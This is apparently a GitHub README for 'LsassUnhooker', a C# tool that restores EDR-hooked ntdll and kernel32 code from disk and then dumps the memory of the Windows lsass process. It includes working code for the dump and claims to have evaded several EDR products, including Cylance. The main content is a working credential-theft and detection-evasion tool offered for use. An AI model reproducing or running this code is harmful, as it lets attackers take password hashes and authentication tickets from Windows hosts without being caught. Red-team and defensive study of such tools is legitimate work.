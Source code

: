 # LsassUnhooker
Little program written in C# to bypass EDR hooks and dump the content of the lsass process. The code makes use of [SharpUnhooker](https://github.com/GetRektBoy724/SharpUnhooker).

This project, created by GetRektBoy724, works the following way:

1.  It reads and copies the `.text section` of the original (in-disk) DLL using "PE parser stuff"
2.  It patches the `.text section` of the loaded DLL using `Marshal.Copy` and `NtProtectVirtualMemory` from D/Invoke (to changes the permission of the memory)
3.  It checks the patched in-memory DLL by reading it again and compare it with the original one to see if its correctly patched.

By just using SharpUnhooker and the MiniDumpWriteDump function, I was able to bypass multiple EDRs and managed to dump the content of lsass without being detected. This is the code that does the trick:

```csharp
SilentUnhooker("ntdll.dll");
SilentUnhooker("kernel32.dll");
String dumpFileName = Directory.GetCurrentDirectory() + "\\" + "lsass.dmp";
if (System.IO.File.Exists(dumpFileName))
{
	System.IO.File.Delete(dumpFileName);
}
IntPtr hFile = NativeMethods.CreateFile(dumpFileName, NativeMethods.EFileAccess.GenericWrite, NativeMethods.EFileShare.None, lpSecurityAttributes: IntPtr.Zero, dwCreationDisposition: NativeMethods.ECreationDisposition.CreateAlways, dwFlagsAndAttributes: NativeMethods.EFileAttributes.Normal, hTemplateFile: IntPtr.Zero);
NativeMethods._MINIDUMP_TYPE dumpType = NativeMethods._MINIDUMP_TYPE.MiniDumpWithFullMemory;
var proc = Process.GetProcessesByName("lsass").FirstOrDefault();
var exceptInfo = new NativeMethods.MINIDUMP_EXCEPTION_INFORMATION();
var result = NativeMethods.MiniDumpWriteDump(proc.Handle, proc.Id, hFile, dumpType, ref exceptInfo, UserStreamParam: IntPtr.Zero, CallbackParam: IntPtr.Zero);
if (result == true) {
	Console.WriteLine("lsass process was successfully dumped in " + Directory.GetCurrentDirectory() + "\\" + "lsass.dmp");
}
else {
	Console.WriteLine("Error dumping lsass process");
}
```

## Example bypassing Cylance
https://user-images.githubusercontent.com/6664528/123254614-29e3cf80-d4ef-11eb-8c80-882e12cbd1b3.mp4
